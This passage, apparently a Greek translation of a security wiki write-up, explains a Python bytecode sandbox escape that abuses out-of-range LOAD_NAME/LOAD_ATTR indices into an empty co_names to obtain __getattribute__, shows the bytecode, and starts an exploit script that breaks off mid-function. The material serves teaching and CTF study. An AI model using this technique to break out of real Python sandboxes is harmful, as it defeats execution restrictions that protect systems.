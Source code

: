 ### Generating the Exploit <a href="#generating-the-exploit" id="generating-the-exploit"></a>

Μόλις ανακτήσουμε αυτές τις χρήσιμες διευθύνσεις για ονόματα / σταθερές, πώς _ακριβώς_ αποκτούμε ένα όνομα / σταθερά από αυτή τη διεύθυνση και το χρησιμοποιούμε; Εδώ είναι ένα κόλπο για εσάς:\
Ας υποθέσουμε ότι μπορούμε να αποκτήσουμε ένα όνομα `__getattribute__` από τη διεύθυνση 5 (`LOAD_NAME 5`) με `co_names=()`, τότε απλώς κάντε τα εξής:
```python
[a,b,c,d,e,__getattribute__] if [] else [
[].__getattribute__
# you can get the __getattribute__ method of list object now!
]1234
```
> Παρατηρήστε ότι δεν είναι απαραίτητο να το ονομάσετε ως `__getattribute__`, μπορείτε να το ονομάσετε με κάτι πιο σύντομο ή πιο περίεργο

Μπορείτε να κατανοήσετε τον λόγο πίσω από αυτό απλά βλέποντας τον bytecode του:
```python
0 BUILD_LIST               0
2 POP_JUMP_IF_FALSE       20
>>    4 LOAD_NAME                0 (a)
>>    6 LOAD_NAME                1 (b)
>>    8 LOAD_NAME                2 (c)
>>   10 LOAD_NAME                3 (d)
>>   12 LOAD_NAME                4 (e)
>>   14 LOAD_NAME                5 (__getattribute__)
16 BUILD_LIST               6
18 RETURN_VALUE
20 BUILD_LIST               0
>>   22 LOAD_ATTR                5 (__getattribute__)
24 BUILD_LIST               1
26 RETURN_VALUE1234567891011121314
```
Σημειώστε ότι το `LOAD_ATTR` ανακτά επίσης το όνομα από το `co_names`. Η Python φορτώνει ονόματα από την ίδια θέση αν το όνομα είναι το ίδιο, οπότε το δεύτερο `__getattribute__` φορτώνεται ακόμα από offset=5. Χρησιμοποιώντας αυτή τη δυνατότητα, μπορούμε να χρησιμοποιήσουμε οποιοδήποτε όνομα μόλις το όνομα είναι στη μνήμη κοντά.

Για τη δημιουργία αριθμών θα πρέπει να είναι απλό:

* 0: όχι \[\[]]
* 1: όχι \[]
* 2: (όχι \[]) + (όχι \[])
* ...

### Exploit Script <a href="#exploit-script-1" id="exploit-script-1"></a>

Δεν χρησιμοποίησα consts λόγω του περιορισμού μήκους.

Πρώτα εδώ είναι ένα σενάριο για να βρούμε αυτά τα offsets των ονομάτων.
```python
from types import CodeType
from opcode import opmap
from sys import argv


class MockBuiltins(dict):
def __getitem__(self, k):
if type(k) == str:
return k


if __name__ == '__main__':
n = int(argv[1])

```